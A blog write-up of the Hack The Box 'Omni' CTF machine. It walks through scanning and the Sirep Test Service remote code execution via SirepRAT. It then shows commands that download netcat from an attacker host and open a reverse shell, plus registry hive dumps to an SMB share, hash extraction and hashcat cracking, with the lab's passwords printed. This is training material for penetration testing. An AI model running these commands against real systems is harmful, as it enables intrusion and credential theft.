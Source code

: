 ```yaml
---
layout: post
title:  "Hack The Box - Omni Writeup"
date:   2021-01-09 06:00:00
categories: Security CTF HTB"
author: Ryan
---
```


*[Hack The Box](https://hackthebox.eu) is an online platform allowing you to test your penetration testing skills and exchange ideas and methodologies with thousands of people in the security field.*  
![Header](../images/HTB-Omni/Header.png)

Omni is an Easy level "Other" machine. Boxes typically fall under the "Linux" or "Windows" category, so this deviation from the norm should lead to a fun and interesting challenge. Based on the creator and community statistics, this box has a decent balance across all areas, but leaning slightly more towards realistic configurations exploited with existing CVEs.  
![Statistics](../images/HTB-Omni/Statistics.png)

## Information Gathering

#### Nmap:
By scanning the target IP with Nmap, we're able to find what ports are open (`-p`), while fingerprinting the services running and their versions (`-sV`). We're also running the default set of scripts (`-sC`), which can help find additional information and automate some of our initial steps. Once the scan is completed, nmap with write the results to our Extracts folder (`-oA`)  
`>> nmap -p135,5985,8080,29817,29819,29820 -sV -sC -Pn -oA Extracts/Omni 10.10.10.204`  
![Nmap](../images/HTB-Omni/nmap.png)

* **Port 135 - msrpc**: Microsoft Remote Procedure Call, is used to negotiate communication over ports 1025 - 65535. 
* **Port 5985 - upnp**: Although nmap shows this port is hosting some type of IIS server, port 5985 is also used for [WinRM](https://docs.microsoft.com/en-us/windows/win32/winrm/portal). If we're able to find credentials, it's posible this will be our way into the machine.
* **Port 8080 - upnp**: Another reference to IIS here, it looks like one of our nmap scripts discovered a "Windows Device Portal" application requiring basic authentication. 
* **Ports 29817, 29819, 29820**: After a bit of research, it appears that these ports are related to WPCon, WPConTCPPing, WPPingSirep, and WPConProtocol2. The Arcserve reference could also be useful later on.

### Windows IoT
Looking into the "Windows Device Portal" finding, we're led to documentation around the Windows IoT platform. We're likely targetting an IoT device, which should narrow down our focus with CVEs and exploits.

## Foothold
Combining the discovery of a Windows IoT device with the higher ports, we find an exploit against the Sirep Test Service that allows for Remote Code Execution. We can leverage this using a simple python tool called [SirepRAT](https://github.com/SafeBreach-Labs/SirepRAT), along with a list of writeble directories to work with.  
![Writeable](../images/HTB-Omni/Foothold_Writeable.png)

### Upload Netcat
Our first step to gaining access on the machine is to upload a netcat executable. This will allow us to create a connection back to our machine and execute additional commands. Start up a simple python server to host our nc46.exe.  
`>> python -m SimpleHTTPServer`

Next, we'll execute a command on the target server to request our file and download it to the Windows Temp directory.  
`>> python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell -c Invoke-WebRequest -OutFile C:\\Windows\\Temp\\nc64.exe -URI 10.10.14.28:8000/nc64.exe" --v`

### Reverse Shell
With the netcat executable in place, our next step is to create a listener on our local machine.  
`>> nc -lvnp 4444`  

We'll send a second command to the target server, this time connecting back to our listener and gaining shell as the Omni user.  
`>> python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\Temp\\nc64.exe 10.10.14.28 4444 -e cmd.exe"`  
![Reverse Shell](../images/HTB-Omni/Foothold_Shell.png)  

### Locating Credentials
Typically, the user flag can be found easily in the Desktop of the user you gained access with. However, this box seems to have a different setup than most and will require us to do a little extra digging. We can search for the `user.txt` file with Powershell.  
`>> powershell -c get-childitem -path c:\ -filter user.txt -recurse -erroraction silentlycontinue -force`  
![Flag Search](../images/HTB-Omni/Foothold_Search.png)  

Reading the contents of `C:\Data\Users\app\user.txt` leads to some Powershell credential information. Unfortunately, we can't decrypt the flag inside yet because it belongs to the app user.  
![User File](../images/HTB-Omni/Foothold_User.png)  

### Extracting SAM, SYSTEM, SECURITY files
Although there is an alternative path on this box involving a batch file left behind during creation, we'll be looking at the intended solution dumping user hashes from the registry. The Security Account Manager (or SAM file) is a database containing all the password hashes for user accounts. The SYSTEM and SECURITY files will allow us to extract the hashes for cracking.

We'll start off by configuring an SMB Share on our local machine to tansfer the files to.  
`>> sudo smbserver.py share . -smb2support -username omni -password omni`

With the share running, we can connect to it from the Omni shell using the credentials we set up.  
`>> net use \\10.10.14.15\share /u:omni omni`

And now, we're able to extract the files while sending them to our machine:  
`>> reg save HKLM\sam \\10.10.14.15\share\SAM`  
`>> reg save HKLM\system \\10.10.14.15\share\SYSTEM`  
`>> reg save HKLM\security \\10.10.14.15\share\SECURITY`  
![SMB Share](../images/HTB-Omni/SMB_Share.png)

### Extracting Hashes
With the files we need successfully sent to our local machine, we're able to extract the hashes inside using `secretsdump.py`.  
`>> secretsdump.py -sam SAM -system SYSTEM -security SECURITY LOCAL`  
![Hashes](../images/HTB-Omni/Hashes.png)

### Cracking Hashes
Our last step to getting user credentials is to run the hashes through `hashcat` and see what we can find.  
`>> .\hashcat.exe -a0 -m1000 .\hash.txt .\rockyou.txt --username`  
![Hashes Cracked](../images/HTB-Omni/Hashes_Cracked.png)

Looks like we've got credentials for the app user!
`app:mesh5143`

### User Flag
Authenticating with the app user credentials against port 8080 results in access to the Windows Device Portal we previously discovered. Under `Processes > Run Command`, we're able to execute arbitrary commands on the system. Let's get the User flag  
`>> powershell -c $credential = Import-CliXml -Path C:\Data\Users\app\user.txt;$credential.GetNetworkCredential().Password`
![User Flag](../images/HTB-Omni/User_Flag.png)  

## Privilege Escalation
In addition to the user flag file, the app user's directory contains an `iot_admin.xml` file. Executing the previous command against the new file results in gaining the admin password `_1nt3rn37ofTh1nGz`.

Reauthenticating to the dashboard using the administrative credentials, we're shown an identical screen as the app user. Again, navigating to `Processes > Run Command` will allow us to execute system commands, this time as the admin. 

### Root Flag
`>> powershell -c $credential = Import-CliXml -Path C:\Data\Users\administrator\root.txt;$credential.GetNetworkCredential().Password`  
![Root Flag](../images/HTB-Omni/Root_Flag.png)  